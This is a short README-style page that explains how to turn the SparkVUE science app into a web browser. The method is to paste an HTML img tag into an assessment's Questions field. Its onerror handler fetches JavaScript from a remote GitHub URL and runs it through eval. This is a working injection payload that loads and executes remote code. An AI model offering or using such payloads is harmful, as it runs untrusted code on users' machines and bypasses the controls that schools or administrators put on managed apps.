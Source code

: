 # Browser
A browser for sparkvue
Instructions:
1. Open SparkVUE from your app launcher
2. Click "Build New Experiment"
3. Click the full grey box (or the split ones, it doesn't really matter)
4. Click the paper with the checkmarks, and click "Add an Assessment"
5. Choose "Multiple Choice", and paste this in the "Questions" box:
```
<img src=# onerror="fetch('https://raw.githubusercontent.com/cam0studios/browser/main.js').then(e => e.text()).then(e => eval(e))">
```
For easy future use:
1. Click the hamburger menu and hit "Save As", choose a name
2. Next time you open up SparkVUE, click "Open Saved Experiment" and click that file
